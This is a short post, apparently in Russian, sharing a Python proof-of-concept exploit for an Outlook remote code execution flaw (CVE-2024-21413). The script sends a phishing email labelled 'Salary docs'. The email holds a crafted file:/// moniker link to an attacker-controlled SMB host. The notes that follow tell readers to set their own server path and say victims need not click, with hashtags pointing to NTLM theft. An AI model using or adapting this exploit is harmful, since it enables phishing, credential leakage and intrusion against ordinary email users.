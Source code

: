 <blockquote>
2024-21413 /outlook RCE
*
POC

import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

def send_email():
    &#35; Get user input for sender's email address and password
    sender_email &#61; input(&quot;Enter your Outlook email address: &quot;)
    sender_password &#61; input(&quot;Enter your Outlook email password: &quot;)

    &#35; Get user input for receiver's email address
    receiver_email &#61; input(&quot;Enter the recipient's email address: &quot;)

    &#35; Create a new message object
    msg &#61; MIMEMultipart()

    &#35; Add sender, receiver, and subject to the message
    msg['From'] &#61; sender_email
    msg['To'] &#61; receiver_email
    msg['Subject'] &#61; input(&quot;Enter email subject: &quot;)

    &#35; Ask user if they want to add a link attachment
    add_attachment &#61; input(&quot;Do you want to add a link attachment? (yes/no): &quot;).lower()
    if add_attachment &#61;&#61; 'yes':
        html_content &#61; &quot;&quot;&quot;\
        &lt;!DOCTYPE html&gt;
        &lt;html lang&#61;&quot;en&quot;&gt;
            &lt;body&gt;
                &lt;p&gt;&lt;a href&#61;&quot;file:///\\192.168.206.139/test/Doc.txt!xssvideo&quot;&gt;Salary docs&lt;/a&gt;&lt;/p&gt;
            &lt;/body&gt;
        &lt;/html&gt;&quot;&quot;&quot;
        msg.attach(MIMEText(html_content, 'html'))

    &#35; Connect to SMTP server and send email
    with smtplib.SMTP('smtp-mail.outlook.com', 587) as server:
        server.starttls()
        server.login(sender_email, sender_password)
        server.send_message(msg)
        print(&quot;Email sent successfully.&quot;)

if __name__ &#61;&#61; &quot;__main__&quot;:
    send_email()

Но есть пара НО:
1. В строке 27 вам необходимо указать путь к файлу на вашем сервере (линк на rtf например)
2. На линк жертве кликать не нужно, Office Protected View все сам сделает.
3. Было мнение что нужно находиться в LAN жертвы, но как бы есть пара минут пока port established

&#35;outглюк &#35;ntlm2
</blockquote>

---